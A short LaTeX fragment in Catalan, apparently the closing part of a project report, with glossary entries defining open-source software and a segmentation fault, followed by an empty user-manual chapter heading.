\nomenclature[opensource]{Open Source}{És considerat opensource tot aquell software del qual el seu codi font és públic.}

\nomenclature[violaciodesegment]{Violació de segment}{Error que es produeix quan l'execució 
d'un programa, provoca (normalment a causa d'un bug) que aquest accedeixi a un segment de memòria que no li pertany.
En intentar-ho, el sistema operatiu ho evita, i llança aquest error.}

\printnomenclature
\addcontentsline{toc}{chapter}{11 Glossari} 


% Manual d'usuari
\chapter{Manual d'usuari}


\end{document}
